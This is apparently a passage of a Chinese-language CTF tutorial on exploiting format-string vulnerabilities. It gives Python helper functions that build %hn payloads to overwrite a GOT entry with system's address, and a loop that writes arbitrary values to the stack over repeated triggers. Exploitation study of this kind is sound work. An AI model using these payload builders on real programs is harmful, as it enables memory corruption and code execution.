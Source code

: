 >使用方法
1. 函数有一个参数，该参数是一个由元组组成的列表，类似于以下形式 [(1_got,111),(2_got,222)]
2. 使用时需要修改红色字部分，解释一下两处红色字如何修改：   图中两处注释解释了下面代码部分 100和32的由来
  ![1](https://raw.githubusercontent.com/carterMgj/blog_img/master/2018-1-6-fsb_summary/1.png)


###### 方法三：将4字节地址分割成2个2字节写入

该方法是把4字节地址分成2个2字节，然后通过一次输入把参数全部布置到栈上，通过一次调用只能修改一处内存值。相比方法一，该方法输入长度较短

>实现代码
```python
def fsb_write(write_data,target_addr):
	addr_high = write_data >> 16
	addr_low =  write_data & 0xffff
	print '[*]addr_high=%x' %addr_high
	print '[*]addr_low=%x' %addr_low
	if addr_low < addr_high:
		addr_high = addr_high - addr_low
		formats = '%%%dc%%13$hn%%%dc%%14$hn'%(addr_low,addr_high)
		formats = formats.ljust(28,'A')
		formats += p32(target_addr) + p32(target_addr+2)
	else:
		addr_low = addr_low - addr_high
		formats = '%%%dc%%13$hn%%%dc%%14$hn'%(addr_high,addr_low)
		formats = formats.ljust(28,'A')
		formats += p32(target_addr+2) + p32(target_addr)
	return formats
例如：
system_addr = 0x7f028db8e380
printf_got = 0x602018
input1 = fsb_write(system_addr,print_got)
printf(input1)
```

>使用方法
1. 该函数有两个参数，第一个参数是覆盖的数据，第二个参数是需要被该数据覆盖的地址
2. 使用的时候，需要修改函数中的红色字部分，根据gdb调试中，在调用printf函数时，我们的栈上的情况修改成相应的数值。
  如：我们需要修改的地址target_addr和target_addr+2 位于栈上的第14，15个参数，那么相应的红字就应该改为 13和14

##### 2.2  fsb漏洞能触发多次
在2.1中介绍的方法，其局限性在于如果函数参数长度有限制，则可能会出现对payload的截断导致利用不成功。但如果fsb漏洞可以利用多次，则可以通过其他的利用方法很好的回避这个问题。以上介绍的方法就是在64bit系统下，通过多次利用fsb漏洞，将任意的内容写入到栈上

>方法原理

![img](https://raw.githubusercontent.com/carterMgj/blog_img/master/2018-1-6-fsb_summary/3.png)

对于上图中的一个栈结构，我把它定位为“三级跳结构”，即假设栈地址存储的内容为x，x和x所指向的地址均在栈上

我们可以通过多次循环来将任意地址放到栈上地址target。在每次循环中会用到两次fsb，第一次通过fsb修改x内容为target地址，第二次通过fsb即可修改target地址的内容

>实现代码
```python
def fsb_write(addr,data):
	print 'addr = '+hex(addr)
	for i in range(3,-1,-1):      #分四次，一次16bit，改写64bit
       #因为都是栈地址，所以只需要修改最后4位地址，就可以在栈上任意地址写
		byte1 = (addr & 0xffff) + (2*i)     
		print 'byte1='+hex(byte1) 
		any_addr_write("%%%dc%%29$hn" % byte1)
		byte2 = data >> (16*i) & 0xffff
		print 'byte2='+hex(byte2) 
		if byte2!=0:	   
			printf("%%%dc%%32$hn" % byte2)
		else:
			printf('%32$hn')
```